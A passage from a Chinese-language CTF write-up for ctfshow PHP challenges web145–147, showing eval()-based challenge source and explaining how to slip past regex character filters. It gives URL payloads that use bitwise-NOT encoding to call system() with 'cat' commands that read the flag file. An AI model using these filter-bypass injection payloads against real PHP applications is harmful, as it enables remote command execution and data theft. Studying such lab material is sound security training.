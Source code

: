 结果 `? :`

也就是 `return 1?system(ls):1`

payload：

```php
?v1=1&v2=2&v3=?(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D5):
```

## web146~等号,位运算

```php
 <?php

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

```



接着把 三目运算过滤了。

利用`等号和位运算符` 绕过。

payload:

```
?v1=1&v2=1&v3===(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F)||

?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F)|
```

## web147

```php
<?php


highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

} 
```



